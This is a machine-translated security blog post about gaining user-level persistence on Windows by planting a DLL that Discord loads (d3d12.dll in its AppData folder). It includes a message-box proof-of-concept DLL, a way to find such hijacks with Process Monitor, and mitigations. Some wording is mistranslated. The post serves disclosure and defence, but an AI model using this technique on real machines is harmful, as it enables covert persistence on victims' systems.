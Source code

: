 # 使用 Discord 的 DLL 劫持持久性

> 原文：<https://infosecwriteups.com/dll-hijacking-persistence-using-discord-80691a63c559?source=collection_archive---------1----------------------->

## 古老的黑客技术在今天仍然有效

在找到几种不同的持久化方法之后。我想验证一个旧的 DLL 劫持利用持久性。大约 9 个月前，我在 HackerOne 上披露了 Discord 的一个 DLL 劫持漏洞。但遗憾的是，它并没有被认为是一个弱点。因为它需要物理接触。但是一些 bug bounty 除外，DLL 劫持有足够的可能性。

# 剥削

简而言之，有一个 DLL 劫持漏洞仍然不和谐。通过在以下目录中放置恶意 DLL 来获得用户级持久性:

**% APPDATA %/local/Discord/app-1 . 0 . 9004**

这个 DLL 的名字应该是:【d3d12.dll 

它不需要 DLL 挖空或其他花哨的东西。所以，它只会执行你的代码。

![](img/c5fec92caf42ab8fc5681ddc045ab0e4.png)

# 创建 DLL

使用的代码非常简单。只需使用基本动态链接库(DLL)创建新的 visual studio 项目

![](img/f43f2018a4ac81a21b2280e54554b4f7.png)

并将主函数更改为下面的代码。所以每当 DLL 发生什么事情时，就会触发一个弹出消息。

```
// dllmain.cpp : Defines the entry point for the DLL application.
#include "pch.h"

BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        MessageBox(NULL,
            TEXT("DLL Hijacking verified Process Attach"),
            TEXT("DLL Hijack BVS"),
            MB_ICONERROR | MB_OK);

    case DLL_THREAD_ATTACH:
        MessageBox(NULL,
            TEXT("DLL Hijacking verified Thread Attach"),
            TEXT("DLL Hijack BVS"),
            MB_ICONERROR | MB_OK);
    case DLL_THREAD_DETACH:
        MessageBox(NULL,
            TEXT("DLL Hijacking verified Thread Detach"),
            TEXT("DLL Hijack BVS"),
            MB_ICONERROR | MB_OK);
    case DLL_PROCESS_DETACH:
        MessageBox(NULL,
            TEXT("DLL Hijacking verified Proces Detach"),
            TEXT("DLL Hijack BVS"),
            MB_ICONERROR | MB_OK);
        break;
    }
    return TRUE;
}
```

现在，您可以基于所需的架构创建一个发布版本，并随时随地使用它！为所有未来的“低挂水果”DLL 劫持漏洞检查。

# 将它付诸行动

将您精心制作的 DLL 放入文件夹时。下一次受害者开始不和谐，DLL 将被加载。在这种情况下，DLL 将生成一个弹出窗口以便于验证。(有时可能需要一点时间)

![](img/c0f847530565957dacbd3663c4ac8e5a.png)

正如您在下面看到的，创建了一个额外的不协调进程，它执行 DLL 劫持弹出窗口

![](img/67b47fff67851534631c13b93fc702e5.png)

交叉引用任务监视器和 Process Explorer 中的 PID，我们可以找到执行的相关命令。

```
%appdata%\Local\Discord\app-1.0.9007\Discord.exe --type=gpu-process --field-trial-handle=1636,17570466365889041215,795977594926311709,131072 --disable-features=CookiesWithoutSameSiteMustBeSecure,HardwareMediaKeyHandling,MediaSessionService,SameSiteByDefaultCookies,SpareRendererForSitePerProcess,WinRetrieveSuggestionsOnlyOnDemand --disable-gpu-sandbox --use-gl=disabled --gpu-vendor-id=4318 --gpu-device-id=5058 --gpu-sub-system-id=695482434 --gpu-revision=161 --gpu-driver-version=31.0.15.2647 --gpu-preferences=SAAAAAAAAADoAAAwAAAAAAAAAAAAAAAAAABgAAAQAAAoAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAB4AAAAAAAAAHgAAAAAAAAAKAAAAAQAAAAgAAAAAAAAACgAAAAAAAAAMAAAAAAAAAA4AAAAAAAAABAAAAAAAAAAAAAAAAUAAAAQAAAAAAAAAAAAAAAGAAAAEAAAAAAAAAABAAAABQAAABAAAAAAAAAAAQAAAAYAAAAIAAAAAAAAAAgAAAAAAAAA --mojo-platform-channel-handle=3692 /prefetch:2
```

然而，我不能通过在终端中重新运行这个 Discord 命令来重复这个漏洞。

# 自己寻找 DLL 劫持漏洞

要自己找到 DLL 劫持漏洞，你可以使用**进程监视器**。Process Monitor 是一个用于 Windows 的高级监控工具，它显示实时文件系统和注册表更改。它带有 S*y internal 包*。它包含了一个用于各种 windows 相关任务的工具包。

请参见下面的链接，通过 Microsoft store 单独下载 Process Monitor 或下载完整的套件(我推荐 Microsoft store，因为它会自动更新。)

 [## live.sysinternals.com-/

### 2021 年 8 月 20 日星期五晚上 10:19 670 about _ this _ site . txt 2022 年 5 月 1 1 日星期三下午 5:30 1468320 access chk . exe…

live.sysinternals.com](https://live.sysinternals.com/) [](https://apps.microsoft.com/store/detail/sysinternals-suite/9P7KNL5RWT25?hl=nl-nl&gl=nl) [## 从微软商店获取 Sysinternals 套件

### Sysinternals 套件是一个 Sysinternals 工具包，包括进程浏览器，进程监视器，Sysmon…

apps.microsoft.com](https://apps.microsoft.com/store/detail/sysinternals-suite/9P7KNL5RWT25?hl=nl-nl&gl=nl) 

当启动 Proces Monitor 时，您会被记录的数量淹没，因此最好选择您的目标并添加一些过滤器。为了找到 DLL 劫持漏洞，可以使用以下过滤器。

![](img/adfbe7c81b06140791baf870040cb7c2.png)

找到值名为“未找到”的结果非常重要。指示文件丢失，并且路径以. dll 结尾。dll 文件。您可以进一步指定过滤器，例如仅列出特定的应用程序。

如果你打开 Discord 你会看到文件中的问题，d3d12.dll 不见了。这就是为什么我们用它来劫持 DLL。

![](img/d8301ef8cf15ecb10e514eb05b497f5c.png)

# **用于检测/缓解:**

1.  将文件更改限制在**% APPDATA %/local/Discord/app-1 . 0 . 9004**目录中，或者在那里放置您自己的 DLL 并验证哈希更改。
2.  监视这个特定的 DLL 名称，并检查它是否被加载到 discord 中。
3.  对于您的应用程序，您可以利用散列，并在加载文件之前验证散列没有改变。
4.  还建议不要从用户可写的位置加载文件。尤其是像 SYSTEM 这样需要更高权限的时候。

# **结论**

有趣的是，有人可以很容易地通过利用 DLL 劫持获得持久性。有许多应用程序都存在这种漏洞，很难验证所有的应用程序。如果你在进程监视器中监视它们，你会震惊地发现有多少 DLL 被错误地加载。
如果你想讨论任何与信息安全相关的话题，我在 LinkedIn 上:[https://www.linkedin.com/in/bobvanderstaak/](https://www.linkedin.com/in/bobvanderstaak/)

## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周简讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 个线程、3 个视频、2 个 GitHub Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！